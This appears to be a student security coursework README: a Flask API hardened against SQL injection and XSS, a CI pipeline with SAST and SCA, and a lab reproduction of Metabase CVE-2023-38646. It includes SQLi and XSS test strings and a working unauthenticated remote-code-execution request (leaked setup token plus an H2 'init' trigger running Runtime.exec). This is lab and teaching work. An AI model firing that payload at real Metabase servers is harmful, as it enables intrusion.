# Information Security Work 1: Secure REST API with CI/CD

> Stack: **Python / Flask 3.1 + SQLite + JWT (PyJWT) + bcrypt**

---

## 1. Project overview and tech stack

Users register and log in to receive a JWT, then use the
protected endpoints to list posts (with keyword search and pagination) and to publish their own posts.

| Area | Choice | Version |
| --- | --- | --- |
| Language | Python | 3.12 |
| Web framework | Flask | 3.1.3 | 
| Database | SQLite (`sqlite3`) | stdlib |
| Auth | PyJWT (HS256) | 2.15.1 | 
| Password hashing | bcrypt | 5.0.0 | 
| CI/CD | GitHub Actions | — |
| SAST | bandit | 1.9.4 |
| SCA | pip-audit | 2.10.1 | 
| Tests | pytest | 9.1.1 |

---
## 2. Repository layout

```text
work1-secure-api/
├── app.py                      # entry point: load .env -> create_app() -> run locally
├── secure_api/
│   ├── __init__.py             # app factory, JWT secret resolution, security headers, init-db CLI
│   ├── config.py               # every security parameter in one place (TTL, bcrypt cost, throttle window)
│   ├── errors.py               # uniform error model (no internal details leaked)
│   ├── security.py             # bcrypt, JWT issue/verify, HTML escaping, login throttle
│   ├── validators.py           # input validation (type, length, format, bounds)
│   ├── db.py                   # sqlite3 + 100% static SQL strings + named bound parameters
│   ├── deps.py                 # auth middleware: jwt_required decorator
│   ├── auth.py                 # /auth/register, /auth/login
│   └── api.py                  # /api/data, /api/posts, /api/me, /health
├── tests/
│   ├── conftest.py             # isolated temporary database + test secret per test
│   ├── test_auth.py            # register/login/throttle/alg confusion/tampered token...
│   └── test_api.py             # access control/SQLi/XSS/pagination/headers...
├── scripts/
│   ├── requests.http           # VS Code REST Client / JetBrains HTTP Client file
│   ├── demo.sh                 # end-to-end demo (Linux/macOS/CI)
│   └── demo.ps1                # end-to-end demo (Windows PowerShell)
├── part-b/
│   ├── vulnerable/docker-compose.yml  # Metabase 0.46.6 — the vulnerable build (port 3000)
│   ├── fixed/docker-compose.yml       # Metabase 0.47.0 — the fixed build (port 3001)
│   └── poc.py                         # CVE-2023-38646 chain: token leak -> setup/validate -> proof
├── docs/
│   ├── postman_collection.json # Postman collection (with SQLi/XSS negative assertions)
│   └── screenshots/            # report screenshots (SAST/SCA reports and the CVE run)
├── .github/workflows/ci.yml    # CI: tests + SAST + SCA
├── requirements.txt            # runtime dependencies (pinned, reproducible)
├── requirements-dev.txt        # dev/CI tooling: pytest, bandit, pip-audit
├── .env.example                # configuration template (the real .env is never committed)
└── .gitignore
```

---

## 3. Quick start: run and test locally

### 3.1 Install and start

```bash
# 1) virtual environment (Python >= 3.10)
python -m venv .venv
# Linux/macOS
source .venv/bin/activate
# Windows PowerShell
.venv\Scripts\Activate.ps1

# 2) dependencies (the dev file also pulls in pytest/bandit/pip-audit)
pip install -r requirements-dev.txt

# 3) secrets: JWT_SECRET must be at least 32 characters or the app refuses to start
cp .env.example .env
python -c "import secrets; print(secrets.token_urlsafe(48))"   # paste the output into .env

# 4) create the schema and seed demo data (user alice / Alice-Str0ng-Pass!)
python -m flask --app app init-db

# 5) run (127.0.0.1:5000 by default, debug disabled)
python app.py
```

Startup log:

```text
2026-10-19T03:08:03 INFO   secure-api listening on http://127.0.0.1:5000 (debug=False)
```

> `ALLOW_REGISTRATION=false` disables public sign-up; users are then created by `flask init-db` or an admin script.

### 3.2 Run the tests

```bash
pytest -q  
```

Each test builds its **own temporary SQLite database** (`tests/conftest.py`), so
`data/app.db` is never touched and no test depends on execution order.

---

## 4. API reference and how to call it

Every successful response is JSON. Every error uses the same envelope:
`{"error": {"code": "...", "message": "..."}}`. Protected endpoints require the header
`Authorization: Bearer <JWT>`.

### 4.0 Endpoint overview

| Method | Path | Auth | Purpose | Success |
| --- | --- | --- | --- | --- |
| `POST` | `/auth/register` | no | Register a user | 201 |
| `POST` | `/auth/login` | no | Log in, receive a JWT | 200 |
| `GET` | `/api/data` | **yes** | List posts| 200 |
| `POST` | `/api/posts` | **yes** | Publish a post | 201 |
| `GET` | `/api/me` | **yes** | Current profile + token claims | 200 |
| `GET` | `/health` | no | Health check | 200 |

### 4.1 `GET /health`

```bash
curl -i http://127.0.0.1:5000/health
```

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"service":"secure-api","status":"ok","version":"1.0.0"}
```

### 4.2 `POST /auth/register`

```bash
curl -i -X POST http://127.0.0.1:5000/auth/register \
  -H 'Content-Type: application/json' \
  -d '{"username":"bob","password":"Bob-Str0ng-Pass!"}'
```

```http
HTTP/1.1 201 CREATED
Content-Type: application/json

{"message":"user created","username":"bob"}
```

Error cases: username taken → `409 {"error":{"code":"username_taken",...}}`;
weak password → `400 {"error":{"code":"weak_password","message":"password must be at least 10 characters"}}`;
registration disabled → `403 registration is disabled`.

### 4.3 `POST /auth/login` (obtain the JWT)

```bash
curl -i -X POST http://127.0.0.1:5000/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"alice","password":"Alice-Str0ng-Pass!"}'
```

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "expires_in": 1800,
  "token_type": "Bearer",
  "user": {"id": 1, "role": "user", "username": "alice"}
}
```

Unknown user and wrong password return the same `401 invalid_credentials`
response, and both perform a bcrypt verification to resist user enumeration.

### 4.4 `GET /api/data` (protected — demonstrates access control)

Without a token → 401, and the response carries `WWW-Authenticate`:

```http
HTTP/1.1 401 UNAUTHORIZED
WWW-Authenticate: Bearer realm="api", error="invalid_token"

{"error":{"code":"unauthorized","message":"authentication required: send 'Authorization: Bearer <token>'"}}
```



With a token → 200 (real response):

```bash
TOKEN="$(curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"alice","password":"Alice-Str0ng-Pass!"}' \
  | python -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"

curl -s "http://127.0.0.1:5000/api/data?limit=2" -H "Authorization: Bearer $TOKEN"
```

```json
{
  "count": 2,
  "items": [
    {"author": "alice", "body": "Try GET /api/data?q=secure to filter posts.", "created_at": "2026-10-19T03:08:10Z", "id": 3, "title": "Search me"},
    {"author": "alice", "body": "&lt;script&gt;alert(&quot;stored-xss&quot;)&lt;/script&gt;", "created_at": "2026-10-19T03:08:10Z", "id": 2, "title": "XSS demo payload"}
  ],
  "limit": 2,
  "offset": 0,
  "query": null,
  "total": 3
}
```



Parameters:

| Parameter | Type | Constraint | Meaning |
| --- | --- | --- | --- |
| `q` | string | ≤ 100 chars, truncated beyond that | Title/body substring search (parameterised LIKE) |
| `limit` | int | 1–100, default 20 | Page size; out-of-range returns 400 |
| `offset` | int | 0–1000000, default 0 | Page offset |

### 4.5 `POST /api/posts` (protected write)

```bash
curl -i -X POST http://127.0.0.1:5000/api/posts \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"title":"My first post","body":"Written over a JWT-protected endpoint."}'
```

```http
HTTP/1.1 201 CREATED

{"post":{"author":"alice","body":"Written over a JWT-protected endpoint.","created_at":"...","id":5,"title":"My first post"}}
```

### 4.6 `GET /api/me` (protected)

```json
{
  "token": {"expires_at": 1792381128, "issued_at": 1792379328, "jti": "9eb8a9330737a4e5", "sub": "1"},
  "user": {"created_at": "2026-10-19T03:08:10Z", "id": 1, "role": "user", "username": "alice"}
}
```

## 5. Security measures in detail (SQLi / XSS / authentication)

### 5.1 SQL injection (SQLi)

**Implementation:** all SQL statements are **static strings**; user input only enters
through named parameters (`secure_api/db.py`):

```python
SELECT_POSTS = """
    SELECT p.id, p.title, p.body, p.created_at, u.username AS author
    FROM posts AS p
    JOIN users AS u ON u.id = p.author_id
    WHERE (:q IS NULL OR p.title LIKE :q ESCAPE '\\' OR p.body LIKE :q ESCAPE '\\')
    ORDER BY p.created_at DESC, p.id DESC
    LIMIT :limit OFFSET :offset
"""
```

```python
# the users query is parameterised the same way; the password hash is passed as a
# parameter too and never spliced into SQL
USER_BY_USERNAME = "SELECT * FROM users WHERE username = :username"

def find_user_by_username(db, username):
    return db.execute(USER_BY_USERNAME, {"username": username}).fetchone()
```

**Why it is work:**

* values always travel through SQLite's bound-parameter channel, so injected text is
  treated as a plain **string literal**;
* no request-controlled variable ever reaches a position that cannot be bound (table
  names, ORDER BY columns are all hard-coded);
* the search keyword has `%`/`_` escaped and is used with `ESCAPE '\'`, so users cannot
  abuse wildcards to turn a search into a table scan / probe;
* an extra layer: *input validation* rejects obviously invalid input before it even
  reaches the database.

**Measured result:**

```bash
# injection in q: zero rows, not the whole table
curl -s "http://127.0.0.1:5000/api/data?q=%27%20OR%201%3D1%20--" -H "Authorization: Bearer $TOKEN"
# -> {"count":0,"items":[],"limit":20,"offset":0,"query":"&#x27; OR 1=1 --","total":0}

# injection in the login form: rejected by input validation (defence in depth), 400, not logged in
curl -s -X POST http://127.0.0.1:5000/auth/login -H 'Content-Type: application/json' \
  -d "{\"username\":\"alice' OR '1'='1\",\"password\":\"x\"}"
# -> {"error":{"code":"invalid_username","message":"username must be 3-32 characters: ..."}}
```

Automated regression tests: `tests/test_api.py::test_sqli_in_search_is_not_injectable`,
`tests/test_auth.py::test_sql_injection_in_login_is_rejected`.

### 5.2 Cross-site scripting (XSS)

**Implementation:** every outbound string goes through `secure_api/security.py:sanitize()`
→ `html.escape(value, quote=True)`, applied centrally in `secure_api/api.py:_post_payload()`:

```python
def _post_payload(row):
    return {
        "id": row["id"],
        "title": sanitize(row["title"]),
        "body": sanitize(row["body"]),
        "author": sanitize(row["author"]),
        "created_at": row["created_at"],
    }
```

**Why it is work:**

* escaping happens on the **output** side (closest to the response), not on input —
  escaping input corrupts data and any new output path would silently miss it;
* `quote=True` also escapes `"` and `'`, so the escaped text is safe inside HTML
  attributes as well as text nodes;
* responses are `Content-Type: application/json` with `X-Content-Type-Options: nosniff`,
  so a browser will not render JSON as HTML;
* `default-src 'none'` means that even if markup were
  injected it could not execute scripts or load resources.

**Measured result**

```bash
curl -s -X POST http://127.0.0.1:5000/api/posts -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"title":"<script>alert(1)</script>","body":""}'
```

```json
{"post":{"author":"alice","body":"&lt;img src=x onerror=alert(1)&gt;","created_at":"2026-10-19T03:08:57Z","id":4,"title":"&lt;script&gt;alert(1)&lt;/script&gt;"}}
```

Regression tests: `tests/test_api.py::test_stored_xss_is_escaped_on_output`,
`test_reflected_xss_in_search_is_escaped`.

### 5.3 Authentication: JWT + bcrypt password hashing

**Password hashing (bcrypt)**:

```python
import bcrypt

def hash_password(plain: str) -> str:
    return bcrypt.hashpw(plain.encode("utf-8"),
                         bcrypt.gensalt(rounds=config.BCRYPT_ROUNDS)).decode("ascii")

def verify_password(plain: str, stored: str) -> bool:
    try:
        return bcrypt.checkpw(plain.encode("utf-8"), stored.encode("ascii"))
    except ValueError:
        return False
```

* cost factor `BCRYPT_ROUNDS=12` (~250 ms per hash), which raises the cost of offline
  brute force;
* bcrypt only consumes the first **72 bytes**, so over-long passwords are rejected at
  registration (`MAX_PASSWORD_BYTES=72`) instead of being silently truncated;
* strength policy: at least 10 characters.

**JWT issue and verification** — issued at login, verified on every protected request:

```python
# issue (security.py:issue_token)
claims = {"iss": issuer, "sub": str(user_id), "username": username, "role": role,
          "iat": issued_at, "nbf": issued_at, "exp": issued_at + ttl, "jti": secrets.token_hex(8)}
token = jwt.encode(claims, secret, algorithm="HS256")
```

```python
# verify (deps.py:jwt_required) -- mounted on every protected route
try:
    claims = decode_token(token, secret=..., algorithm="HS256", issuer=...)
except jwt.ExpiredSignatureError:
    return _unauthorized("token has expired", "token_expired")
except jwt.PyJWTError:            # bad signature / bad algorithm / malformed -> 401
    return _unauthorized("invalid or malformed token", "invalid_token")
g.jwt_claims = claims             # downstream code trusts only these claims
```

Key protections:

* **algorithm allow-list** `algorithms=["HS256"]`, plus `options` rejecting `alg: none`
  and RS→HS algorithm confusion (`tests/test_auth.py::test_alg_none_is_rejected`);
* **required claims** `require=["exp","iat","nbf","sub"]` and an `iss` allow-list;
* **signing secret**: `JWT_SECRET` must be at least 32 characters or the app refuses to
  start;
* **expiry**: 30 minutes by default (`JWT_TTL_MINUTES`); expired tokens get
  `401 token_expired`;
* the token carries **no sensitive data** (only sub/username/role — never a password hash).

**Access control**
```python
@api_bp.get("/api/data")
@jwt_required()
def data():          # without a valid JWT the view is never reached
    ...
```

`tests/test_api.py::test_protected_endpoints_require_token` walks **every protected
endpoint**, so none can be left unprotected by accident.

## 6. CI/CD pipeline: SAST and SCA

The workflow `.github/workflows/ci.yml` runs on every push and pull request, and can also
be started manually (`workflow_dispatch`). It has three independent jobs:

| Job | Tool |
| --- | --- |
| Unit tests (pytest) | pytest 9.1.1 |
| SAST - bandit | bandit 1.9.4 |
| SCA - pip-audit | pip-audit 2.10.1 |

**Pipeline runs:** <https://github.com/Shu1236/work1-secure-api/actions> — open the most
recent run of the `CI` workflow; it is the current state of this workflow file.

### Screenshots (GitHub Actions)

**1. Pipeline overview — the three jobs all finish green**



**2. Unit tests**



**3. SAST — job page, then the report itself: `No issues identified.`**





**4. SCA — job page, then the report itself: `No known vulnerabilities found`**





---

## 7. Vulnerable environment and CVE reproduction

### 7.1 The CVE

| Item | Value |
| --- | --- |
| CVE | **CVE-2023-38646** |
| Product | Metabase, self-hosted business-intelligence server|
| Component | `POST /api/setup/validate` — the pre-authentication setup wizard endpoint |
| Affected releases | OSS < 0.46.6.1 and Enterprise < 1.46.6.1; also fixed in 0.45.4.1 / 1.45.4.1, 0.44.7.1 / 1.44.7.1, 0.43.7.2 / 1.43.7.2 |
| Version run here | **`metabase/metabase:v0.46.6`** |

The vulnerability is a "trusted input" mistake: the setup-wizard endpoint is
reachable **before** Metabase has an administrator, and it forwards a caller-supplied
connection-details map to a database driver. The H2 driver is a local engine that can run
SQL at connection time, so a crafted `init` property turns the wizard into an
unauthenticated command executor.

### 7.2 Starting the vulnerable environment

```bash
git clone --filter=blob:none --sparse --depth 1 https://github.com/vulhub/vulhub.git ~/vulhub/repo
cd ~/vulhub/repo && git sparse-checkout set metabase/CVE-2023-38646
cd metabase/CVE-2023-38646        # docker-compose.yml + README.md from Vulhub
docker compose up -d              # web: vulhub/metabase:0.46.6 -> http://127.0.0.1:3000
docker compose ps
curl -s http://127.0.0.1:3000/api/health          # {"status":"ok"} once it has booted
curl -s http://127.0.0.1:3000/api/session/properties | \
  python3 -c 'import sys,json; print(json.load(sys.stdin)["version"])'
```



### 7.3 Reproducing the vulnerability

The whole chain is scripted in [`part-b/poc.py`](part-b/poc.py)

```bash
python3 part-b/poc.py --base-url http://127.0.0.1:3000 --container cve-2023-38646-web-1
```

Step 1 — the setup token leaks to an unauthenticated caller:

```text
$ curl -s http://127.0.0.1:3000/api/session/properties | python3 -c 'import sys,json; print(json.load(sys.stdin)["setup-token"])'
c1d2400e-d9bc-46d8-b7cb-4a5393814e18
```

Step 2 — the token is spent on `/api/setup/validate` together with an H2 connection whose
`init` property contains JavaScript:

```json
{
  "token": "c1d2400e-d9bc-46d8-b7cb-4a5393814e18",
  "details": {
    "engine": "h2",
    "details": {
      "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
      "init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\n\tjava.lang.Runtime.getRuntime().exec(\"touch /tmp/metabase-pwned\")\n$$"
    }
  }
}
```

Step 3 — the response looks like a failure, but the command already ran:

```text
$ python3 part-b/poc.py --base-url http://127.0.0.1:3000 --container cve-2023-38646-web-1
== target: http://127.0.0.1:3000 ==
setup-token leaked without authentication: c1d2400e-d9bc-46d8-b7cb-4a5393814e18
== sending /api/setup/validate with an h2 init payload: touch /tmp/metabase-pwned
>> HTTP 400
{"message":"Error creating or initializing trigger \"SHELL3\" object, ... Syntax error in SQL statement ..."}
== proof: docker exec cve-2023-38646-web-1 ls -l /tmp/metabase-pwned
-rw-r--r--    1 metabase metabase         0 Oct 19 09:35 /tmp/metabase-pwned
>> VULNERABLE: the command executed inside the container
```

The HTTP 400 is a red herring: H2 compiles and runs the trigger before it complains about
the trigger's SQL syntax, so the `Runtime.exec` has already happened.

